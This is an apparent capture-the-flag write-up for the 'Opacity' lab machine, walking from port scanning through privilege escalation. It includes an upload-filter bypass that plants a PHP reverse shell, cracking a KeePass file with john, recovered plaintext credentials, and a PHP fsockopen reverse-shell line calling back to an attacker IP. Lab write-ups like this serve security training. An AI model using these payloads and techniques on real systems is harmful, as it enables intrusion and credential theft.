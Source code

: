 # Opacity


### Opacity
Initial scan shows ports 22,80,139 and 445 open, and ports 9485, 11972 and 15370 filtered:

    # Nmap 7.94SVN scan initiated Wed Oct 30 06:32:33 2024 as: nmap -p22,80,139,445,9485,11972,15370 -sV -sC -oN scan 10.10.40.162
    Nmap scan report for 10.10.40.162
    Host is up (0.067s latency).
    
    PORT      STATE  SERVICE     VERSION
    22/tcp    open   ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
    |   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
    |_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
    80/tcp    open   http        Apache httpd 2.4.41 ((Ubuntu))
    | http-title: Login
    |_Requested resource was login.php
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    139/tcp   open   netbios-ssn Samba smbd 4.6.2
    445/tcp   open   netbios-ssn Samba smbd 4.6.2
    9485/tcp  closed unknown
    11972/tcp closed unknown
    15370/tcp closed unknown
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Host script results:
    |_clock-skew: -1h00m52s
    |_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb2-time: 
    |   date: 2024-10-30T09:32:00
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required

Gobuster finds `/cloud` directory on the webserver: `gobuster dir -u http://10.10.40.162 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt`<br />
![image](https://github.com/user-attachments/assets/bbd215c0-4ffa-4411-a220-61147005a489)<br />
This page allows us to upload images. There's a filter that only allows strings ending with `.jpg` or `.png`. But we can upload a php file by simply adding a space before `.jpg`, like so: `http://10.11.108.100/revshell.php .jpg`. Open a python webserver on the attacker's machine and upload a php reverse shell. I used the one from [pentest monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Then open a netcat listener and visit `http://10.10.9.20/cloud/images/revshell.php`:<br />
![image](https://github.com/user-attachments/assets/58ff0220-c304-49f6-81d4-1fb2fa4ecf57)<br />
Inside `/opt` there's a KeyPass file:<br />
![image](https://github.com/user-attachments/assets/527e2e1d-e1ed-4691-a814-b31379d4be3c)<br />
So I transfered this file on my machine using netcat. And I used john to extract the hash of the password that protects this database: `keepass2john dataset.kdbx > hash.txt`. <br />
![image](https://github.com/user-attachments/assets/4ce0d56d-7bbd-4149-a788-aac3fafb1c87)<br />
Then run `john hash.txt` to crack it:<br />
![image](https://github.com/user-attachments/assets/c83e5b61-f7f0-40fe-86e8-f2628153b1a5)<br />
Now we can open the database with the following command: `keepassxc-cli open dataset.kdbx` and prompt `741852963` as password.<br />
![image](https://github.com/user-attachments/assets/385b27b8-c68c-4cbb-96d6-b122e57be292)<br />
To look at the password, add the `-s` flag:<br />
![image](https://github.com/user-attachments/assets/0944e2f0-b692-44a7-af9d-ecd504e0ddc0)<br />
Creds found: `sysadmin:Cl0udP4ss40p4city#8700`. Now inside the `/home/sysadmin/scripts` directory there's a `script.php` file that's owned by root, but that I can read: <br />
![image](https://github.com/user-attachments/assets/3dfab10f-5aef-4f2e-86cb-39459a2fa459)<br />
This is the content of the script: <br />
![image](https://github.com/user-attachments/assets/b65303f2-6f43-470a-8f1a-2f6892302e6d)<br />
Now if I use [pspy64](https://github.com/DominicBreuker/pspy), I get the following output:<br />
![image](https://github.com/user-attachments/assets/6000a74e-c667-4b4e-aab9-12a0a6e6003a)<br />
This means that this script is a cronjob running by root.
It essentially saves everything inside a backup folder, and then deletes everything. What's interesting is that it imports another php script called `backup.inc.php` inside the lib directory, which is owned by sysadmin!<br />
![image](https://github.com/user-attachments/assets/0128c19c-11c2-4eff-a2ac-e66b70d7f6a4)<br />
Every file is owned by root. But since I own the directory, I can move in and out every file I want. So the idea is to remove the `backup.inc.php` script out of this folder, and then copy it back on that folder, but this time owned by sysadmin. So first step: move the script outside the folder with `mv backup.inc.php /home/sysadmin/`. Now run `cp backup.inc.php scripts/lib/backup.inc.php`<br />
![image](https://github.com/user-attachments/assets/ca6670c5-3a73-4b24-aa12-52c33a364197)<br />
The script is now owned by sysadmin! We can now modify it to spawn a reverse shell as root, add the following line to the script: `$sock=fsockopen("10.11.85.53",4444);exec("sh <&3 >&3 2>&3");`<br />
![image](https://github.com/user-attachments/assets/1e06f2f3-978f-4bb2-84d7-eedc94de6e0a)<br />
Now open a netcat listener and wait for the reverse shell: <br />
![image](https://github.com/user-attachments/assets/967cbbb5-5a8d-4388-978e-fc1155204dbc)<br />
